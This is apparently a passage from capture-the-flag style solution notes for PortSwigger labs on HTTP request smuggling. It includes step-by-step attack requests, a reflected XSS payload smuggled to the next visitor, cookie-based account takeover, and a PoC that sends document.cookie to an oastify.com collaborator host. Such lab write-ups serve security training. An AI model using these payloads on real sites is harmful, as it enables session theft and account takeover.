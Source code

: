 ```

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```
4. View the blog post to see if there's a comment containing a user's request. Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.
5. Copy the user's Cookie header from the comment, and use it to access their account.

## Exploiting HTTP request smuggling to deliver reflected XSS
Reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss


### Solution
1. Visit a blog post, and send the request to Burp Repeater.
2. Observe that the comment form contains your ``User-Agent`` header in a hidden input.
3. Inject an XSS payload into the ``User-Agent`` header and observe that it gets reflected:
```
"/><script>alert(1)</script>
```
4. Smuggle this XSS request to the back-end server, so that it exploits the next visitor:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```


INIT. PoC:
```
GET /post?postId=2 HTTP/2
Host: 0a27009e04ab960f8287fbb30072003b.web-security-academy.net
Cookie: session=EHLHuoykgRSERPThcyWjjDlfUfAZYRYX
User-Agent: a"/><script>document.location='http://jpcr09l2pusdlsamou2shbkdw42vqtei.oastify.com/?Hack='+document.cookie;</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


```
in collaborator it should show "/?Hack=" without the actual session value
